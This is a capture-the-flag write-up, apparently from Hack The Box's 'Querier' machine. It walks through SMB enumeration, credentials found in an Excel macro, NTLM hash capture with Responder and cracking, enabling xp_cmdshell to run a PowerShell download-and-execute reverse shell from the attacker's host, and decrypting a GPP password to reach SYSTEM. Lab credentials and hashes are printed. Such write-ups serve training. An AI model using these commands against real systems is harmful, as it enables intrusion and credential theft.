


# Resolution summary

>[!summary]
>- **Anonymous smb** session allows to download a **.xlsm file containing credentials**
>- Using the previously found credentials it is possible to l**ogin within the MSSQL** server as reporting user
>- Abusing the authentication performed, every time the **UNC path** is used to access a remote server, it is possible to grab the **mssql service account NTLM hash** and crack it
>- Using **mssql-svc account** it is possible to access MSSQL with high privileges and enabling the **xp_cmdshell** in order to get code execution
>- Administrator credentials are stored within an **GPP xml** file and can be **easily decrypted**

## Improved skills

- Exploit MSSQL DBMS cracking service account NTLM and executing xp_cmdshell
- Exploiting weak encryption algorithm in GPP file to extract clear text credentials

## Used tools

- nmap
- smbclient
- smbmap
- mssqlclient
- responder
- hashcat
- impacket-psexec

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ sudo nmap -sS -p- -Pn 10.10.10.125 -oN scans/all-tcp-ports.txt -v
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ sudo nmap -sV -sT -p135,139,445,1433,5985 -oN scans/open-ports.txt -sC -Pn 10.10.10.125                                                                                                                                            1 ⨯
[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 17:49 EDT
Nmap scan report for 10.10.10.125
Host is up (0.056s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-04-22T19:35:15
|_Not valid after:  2051-04-22T19:35:15
|_ssl-date: 2021-04-22T20:56:42+00:00; -53m18s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -53m18s, deviation: 0s, median: -53m18s
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-22T20:56:35
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```

# Enumeration

## Port 139 & port 445 - NetBIOS & SMB

List shares using Anonymous Session:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ smbclient -L 10.10.10.125       
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Reports         Disk      
SMB1 disabled -- no workgroup available
```

List Reports share's files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ smbclient //10.10.10.125/Reports -U ' '  
Enter WORKGROUP\ 's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 28 18:23:48 2019
  ..                                  D        0  Mon Jan 28 18:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 17:21:34 2019

                6469119 blocks of size 4096. 1592522 blocks available
```

Currency Volume Report.xlsm - Macro connect



```visual-basic
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
```

>[!important]
>reporting     PcwTWTHRwryjc$c6

## Port 1433 - MSSQL (Microsoft SQL Server 2017)

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ sudo nmap -sV -sT -p1433 -oN scans/p1433-enum.txt -Pn 10.10.10.125 --script=ms-sql*
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-23 11:47 EDT
NSE: [ms-sql-brute] passwords: Time limit 10m00s exceeded.
NSE: [ms-sql-brute] passwords: Time limit 10m00s exceeded.
NSE: [ms-sql-brute] usernames: Time limit 10m00s exceeded.
Nmap scan report for 10.10.10.125
Host is up (0.053s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-brute:
|   [10.10.10.125:1433]
|_    No credentials found
| ms-sql-config:
|   [10.10.10.125:1433]
|_    ERROR: No login credentials
| ms-sql-dump-hashes:
| [10.10.10.125:1433]
|_  ERROR: No login credentials
| ms-sql-hasdbaccess:
|   [10.10.10.125:1433]
|_    ERROR: No login credentials.
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
| ms-sql-query:
|   (Use --script-args=ms-sql-query.query='<QUERY>' to change query.)
|   [10.10.10.125:1433]
|_    ERROR: No login credentials
| ms-sql-tables:
|   [10.10.10.125:1433]
|_    ERROR: No login credentials.
| ms-sql-xp-cmdshell:
|   (Use --script-args=ms-sql-xp-cmdshell.cmd='<CMD>' to change command.)
|   [10.10.10.125:1433]
|_    ERROR: No login credentials.

Host script results:
| ms-sql-info:
|   10.10.10.125:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 615.59 seconds
```

Authentication using default username and credentials found inside the macro:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ mssqlclient.py reporting@10.10.10.125 -db volume -debug -windows-auth
/home/kali/.pyenv/versions/2.7.18/lib/python2.7/site-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

Password: PcwTWTHRwryjc$c6
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

### MSSQL Enumeration

```sql
SQL> select @@version;

--------------------------------------------------------------------------------------------------------------------------------

Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64)
        Aug 22 2017 17:04:49
        Copyright (C) 2017 Microsoft Corporation
        Standard Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)

SQL> SELECT name FROM master.dbo.sysdatabases
name

--------------------------------------------------------------------------------------------------------------------------------

master
tempdb
model
msdb
volume

SQL> SELECT table_name FROM master.information_schema.tables
table_name

--------------------------------------------------------------------------------------------------------------------------------

spt_fallback_db
spt_fallback_dev
spt_fallback_usg
spt_values
spt_monitor

SQL> SELECT table_name FROM msdb.information_schema.tables
table_name

--------------------------------------------------------------------------------------------------------------------------------

syspolicy_system_health_state
syspolicy_policy_execution_history
syspolicy_policy_execution_history_details
syspolicy_configuration
syspolicy_conditions
syspolicy_policy_categories
sysdac_instances
syspolicy_object_sets
dm_hadr_automatic_seeding_history
syspolicy_policies
backupmediaset
backupmediafamily
backupset
autoadmin_backup_configuration_summary
backupfile
syspolicy_target_sets
restorehistory
restorefile
syspolicy_target_set_levels
restorefilegroup
logmarkhistory
suspect_pages
syspolicy_policy_category_subscriptions
```

# Exploitation

## Cracking MSSQL Service Account hash

Extract the NTLM hash of the user making the service authenticate:

```sql
SQL> exec master..xp_dirtree '\\10.10.14.14\test'
```

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ sudo responder -I tun0
[sudo] password for kali:
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.10.10.125
[SMB] NTLMv2-SSP Username : QUERIER\mssql-svc
[SMB] NTLMv2-SSP Hash     : mssql-svc::QUERIER:ab20089bfae8ed41:0DBEF39563DD715464447347F46134EE:0101000000000000C0653150DE09D2016AE9B15C1ABCFBCF000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000000000000300000FC9B7CC5D5133903C1670B7827A727004534578DE34F3B16372E97AEC62F8FBF0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003400000000000000000000000000
[*] Skipping previously captured hash for QUERIER\mssql-svc
[+] Exiting...
```

Cracked the hash:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Querier/loot]
└─$ hashcat mssql-svc.NTLM /usr/share/wordlists/rockyou.txt --force -m5600
hashcat (v6.1.1) starting...
...
MSSQL-SVC::QUERIER:ab20089bfae8ed41:0dbef39563dd715464447347f46134ee:0101000000000000c0653150de09d2016ae9b15c1abcfbcf000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800c0653150de09d20106000400020000000800300030000000000000000000000000300000fc9b7cc5d5133903c1670b7827a727004534578de34f3b16372e97aec62f8fbf0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000:corporate568
```

Authentication using mssql-svc credentials:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ mssqlclient.py mssql-svc@10.10.10.125 -db volume -debug -windows-auth
/home/kali/.pyenv/versions/2.7.18/lib/python2.7/site-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

Password: corporate568
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> SELECT system_user; 
 

--------------------------------------------------------------------------------------------------------------------------------  

QUERIER\mssql-svc
```

## Code execution using xp_cmdshell

Payload:

[nishang/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Querier/loot]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1

┌──(kali㉿kali)-[~/…/HTB/box/Querier/loot]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443' >> revshell.ps1

┌──(kali㉿kali)-[~/…/HTB/box/Querier/loot]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [23/Apr/2021 16:08:50] "GET /revshell.ps1 HTTP/1.1" 200 -
```

Enable xp_cmdshell and download the reverse shell and execute it:

```sql
SQL> EXEC sp_configure 'show advanced options', '1';
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', '1';
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXEC master..xp_cmdshell 'whoami'
output                                                                                                                                                                                                                                     

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

querier\mssql-svc                                                                                                                                                                                                                          
NULL 

SQL> EXEC master..xp_cmdshell "powershell.exe IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.14/revshell.ps1')"
```

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ sudo nc -nlvp 443
[sudo] password for kali:
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.125] 49684
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
querier\mssql-svc
```

# Privilege Escalation

## Local enumeration

User info:

```bash
PS C:\Windows\system32>whoami
querier\mssql-svc
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID                                                             Attributes
==================================== ================ =============================================================== ==================================================
Everyone                             Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Monitor Users    Alias            S-1-5-32-558                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113                                                       Mandatory group, Enabled by default, Enabled group
NT SERVICE\MSSQLSERVER               Well-known group S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003 Enabled by default, Enabled group, Group owner
LOCAL                                Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10                                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
PS C:\Windows\system32> net user

User accounts for \\QUERIER

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
mssql-svc                reporting                WDAGUtilityAccount
The command completed successfully.
```

Systeminfo:

```bash
C:\Users\mssql-svc\Downloads>systeminfo
systeminfo

Host Name:                 QUERIER
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-00521-62775-AA073
Original Install Date:     1/28/2019, 11:16:50 PM
System Boot Time:          4/22/2021, 8:34:44 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 750 MB
Virtual Memory: Max Size:  3,199 MB
Virtual Memory: Available: 1,820 MB
Virtual Memory: In Use:    1,379 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB.LOCAL
Logon Server:              N/A
Hotfix(s):                 6 Hotfix(s) Installed.
                           [01]: KB4481031
                           [02]: KB4462930
                           [03]: KB4470788
                           [04]: KB4480056
                           [05]: KB4480979
                           [06]: KB4476976
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.125
                                 [02]: fe80::a577:7bc7:200e:ed2e
                                 [03]: dead:beef::a577:7bc7:200e:ed2e
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

netstat:

```bash
C:\Users\mssql-svc\Downloads>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3528
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       448
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       980
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       932
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       604
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2012
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       1472
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       604
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       584
  TCP    10.10.10.125:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.10.125:1433      10.10.14.14:40860      ESTABLISHED     3528
  TCP    10.10.10.125:49684     10.10.14.14:443        ESTABLISHED     2036
  TCP    10.10.10.125:49686     10.10.14.14:443        ESTABLISHED     3292
  TCP    127.0.0.1:1434         0.0.0.0:0              LISTENING       3528
  TCP    [::]:135               [::]:0                 LISTENING       820
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:1433              [::]:0                 LISTENING       3528
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       448
  TCP    [::]:49665             [::]:0                 LISTENING       980
  TCP    [::]:49666             [::]:0                 LISTENING       932
  TCP    [::]:49667             [::]:0                 LISTENING       604
  TCP    [::]:49668             [::]:0                 LISTENING       2012
  TCP    [::]:49669             [::]:0                 LISTENING       1472
  TCP    [::]:49670             [::]:0                 LISTENING       604
  TCP    [::]:49671             [::]:0                 LISTENING       584
  TCP    [::1]:1434             [::]:0                 LISTENING       3528
  UDP    0.0.0.0:123            *:*                                    1000
  UDP    0.0.0.0:500            *:*                                    932
  UDP    0.0.0.0:4500           *:*                                    932
  UDP    0.0.0.0:5353           *:*                                    704
  UDP    0.0.0.0:5355           *:*                                    704
  UDP    10.10.10.125:137       *:*                                    4
  UDP    10.10.10.125:138       *:*                                    4
  UDP    127.0.0.1:62615        *:*                                    932
  UDP    [::]:123               *:*                                    1000
  UDP    [::]:500               *:*                                    932
  UDP    [::]:4500              *:*                                    932
  UDP    [::]:5353              *:*                                    704
  UDP    [::]:5355              *:*                                    704
```

Drives info:

```bash
[+] Drives Information
   [?] Remember that you should search more info inside the other drives 
    A:\ (Type: Removable)
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 6 GB)(Permissions: Users [AppendData/CreateDirectories])
    D:\ (Type: CDRom)
```

Autologon creds:

```bash
[+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  Administrator
```

GPP .xml files:

```bash
Found C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Found C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
```

## Weak Administrator credentials in GPP .xml files

[Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

Decoded GPO password: ‣

```bash
Found C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Found C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    UserName: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
    Changed: 2019-01-28 23:12:48
Found C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    UserName: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
    Changed: 2019-01-28 23:12:48

PS C:\ProgramData> findstr /si "cPassword" *.xml
Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml:<Properties action="U" newName="" fullName="" description="" cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"></Properties></User></Groups>
```

```xml
PS C:\temp> type "C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml"
<?xml version="1.0" encoding="UTF-8" ?><Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator" image="2" changed="2019-01-28 23:12:48" uid="{CD450F70-CDB8-4948-B908-F8D038C59B6C}" userContext="0" removePolicy="0" policyApplied="1">
<Properties action="U" newName="" fullName="" description="" cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"></Properties></User></Groups>

PS C:\temp> type "C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml"
<?xml version="1.0" encoding="UTF-8" ?><Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator" image="2" changed="2019-01-28 23:12:48" uid="{CD450F70-CDB8-4948-B908-F8D038C59B6C}" userContext="0" removePolicy="0" policyApplied="1">
<Properties action="U" newName="" fullName="" description="" cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"></Properties></User></Groups>
```

Login with Administrator credentials:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Querier]
└─$ impacket-psexec Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125 -port 445
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.125.....
[*] Found writable share ADMIN$
[*] Uploading file JwmMvPHT.exe
[*] Opening SVCManager on 10.10.10.125.....
[*] Creating service fTGF on 10.10.10.125.....
[*] Starting service fTGF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname && whoami && type C:\users\administrator\desktop\root.txt && ipconfig /all
QUERIER
nt authority\system
b19c3794f786a1fdcf205f81497c3592

Windows IP Configuration

   Host Name . . . . . . . . . . . . : QUERIER
   Primary Dns Suffix  . . . . . . . : HTB.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : HTB.LOCAL

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-67-6D
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::a577:7bc7:200e:ed2e(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::a577:7bc7:200e:ed2e%13(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.125(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:188e%13
                                       10.10.10.2
